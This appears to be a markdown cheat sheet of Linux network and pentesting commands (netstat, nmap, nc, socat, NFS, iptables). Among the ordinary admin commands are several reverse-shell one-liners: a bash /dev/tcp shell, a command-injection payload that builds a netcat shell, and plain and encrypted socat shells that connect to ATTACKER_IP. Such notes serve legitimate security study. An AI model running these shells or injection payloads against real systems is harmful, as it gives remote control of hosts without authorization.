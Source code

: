 # Network tool

* Check network throughput on different interfaces
```bash
cat /proc/net/dev
```

## `netstat`

* `-r` Show current system's routing table
```bash
netstat -r
```

* `-a` Show all connection, `-t` for TCP connection, `-u` for UDP connection
```bash
netstat -atu
```

* `-l` Show only listening connection.
```bash
netstat -lt
```

* `-p` Show the process and PID that is running to handle the network connection
```bash
netstat -p
```

* `-n` Show the numeric port number instead of trying to dynamically determine the symbolic host
```bash
netstat -n
```

* Restart network manager in kali
```bash
#!/bin/bash
sudo service networking restart
sudo service network-manager restart
```

# Network commands
* nmap -A: Aggressive mode
```bash
nmap -A IP
```

* Interactive bash shell
```bash
/bin/bash -i > /dev/tcp/IP/PORT 0<&1 2>&1
```

* Another way to get reverse shell with command execution
```bash
192.168.0.18; rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1  | nc -lp 9999 > /tmp/f
```

* TCP scanning with `nc`
```bash
nc -nvv -w 1 -z 127.0.0.1 1000-2000
```

* Scanning all services given a server with `nmap`
```bash
nmap -A 192.168.0.1
```

* `-sV` for detecting version, `-p-` for all ports, `-T4` for fast execution time.
```
nmap -p- -T4 -sV IP_ADDR
```

* `socat`, SOcket CAT, `TCP4` specifies the protocol, `-` is used to transfer data between `stdio` and remote host, allowing keyboard interaction with the shell
```bash
socat - TCP4:127.0.0.1:8080
```

* Bind a port to listen using `socat`, `STDOUT` redirects output to terminal
```bash
sudo socat TCP4-LISTEN:443 STDOUT
```

* File transfer with `socat`, `fork` will fork a child process whenever a client connects to the server, and will run indefinitely until killed. `file` is the option to specify which file to transfer. `create` will create the file if it doesn't exist.
```bash
server:
socat TCP4-LISTEN:8888,fork file:secret.txt

client:
socat TCP4:localhost:8888 file:receive.txt,create
```

* Reverse shell with `socat`, `-d -d` for more verbose output, `EXEC` is the option to run a target executable after client connects to it.
```bash
attacker:
socat -d -d TCP4-LISTEN:1337 STDOUT

victim:
socat TCP4:ATTACKER_IP:1337 EXEC:/bin/bash
```

* Encrypted reverse shell with `socat`. After generating a self-signed cert with `openssl`, we will use `cert` option to indicate our desire certificate to use for encryption, and `verify=0` to disable SSL certificate verification since it is a self-signed cert. 
```bash
attacker:
socat OPENSSL:VICTIM_IP:1337,verify=0

victim:
socat OPENSSL-LISTEN:1337 cert=server.pem, verify=0, fork EXEC:/bin/bash
```

* Show possible mount point given a server that is running NFS
```bash
showmount -e 192.168.0.1
```

* Show IP table rules
```bash
sudo iptables-save
```

* Disable a network interface card
```bash
sudo ifconfig eth0 down
```

* Enable a network interface card
```bash
sudo ifconfig eth0 up
```

* `ss`, socket statistic, `-a` shows all listening and non-listening sockets, `-n` displays the numeric IP, and does not resolve service name, `-t` specifies TCP sockets, `-l` displays only listening sockets, `-p` shows the process that is using the socket


